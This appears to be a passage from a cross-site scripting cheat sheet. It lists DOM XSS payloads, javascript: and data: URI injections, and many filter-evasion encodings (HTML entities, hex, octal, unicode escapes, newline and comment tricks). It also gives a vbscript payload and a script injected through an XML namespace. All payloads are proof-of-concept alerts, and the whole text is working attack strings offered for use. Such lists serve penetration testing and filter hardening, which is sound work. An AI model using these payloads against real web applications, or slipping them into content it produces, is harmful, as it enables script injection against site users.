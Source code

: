 DOM XSS
```
#"><img src=/ onerror=alert(2)>
```

## XSS in wrappers javascript and data URI
XSS with javascript:
```
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javacript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
 \j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

XSS with data:
```
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
```

XSS with vbscript: only IE
```
vbscript:msgbox("XSS")
```
## XSS in files
XSS in XML
```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```
